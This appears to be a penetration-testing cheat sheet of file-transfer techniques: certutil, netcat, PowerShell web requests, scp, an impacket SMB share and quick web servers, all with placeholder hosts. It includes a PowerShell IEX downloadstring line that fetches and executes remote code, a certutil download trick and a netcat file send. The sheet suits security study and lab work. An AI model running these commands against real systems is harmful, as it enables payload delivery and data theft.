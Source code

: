 # Methods

Copy & paste with base64 encoding.
`certutil` Download files.
`curl` Retrieve remote files.
`impacket-smbserver` Temporary SMB server.
`invoke-webrequest` PowerShell HTTP request.
`nc` Netcat file copy.
`net.webclient` PowerShell HTTP request.
`python` Temporary web server.
`scp` Remote file copy via SSH.
`wget` Retrieve remote files.

# certutil

`certutil -urlcache http://ipaddress/filename outputfilename`

# FTP

Use ASCII mode for transferring text files.
`ascii`

Use binary mode for transferring all other file types.
`binary`

# Netcat

Receiving End
`nc -lvnp port > destination_file`

Sending End
`nc -w3 destination_ip port < source_file`

# PowerShell

Invoke Web Request
`Invoke-WebRequest "http://url/file" -OutFile "filepath\filename"`

Web Client
`IEX(new-object net.webclient).downloadstring('http://url/file')`

# SCP

Local to Remote
`scp -i id_rsa file user@remote-host:/remote/dir`

# SMB Server

```
impacket-smbserver -smb2support -username user -password pass share /local/dir

net use x: \\ipaddress\share /user:user pass
```

# Web Server

PHP
`php -S host:port`

Python
`python -m http.server port`
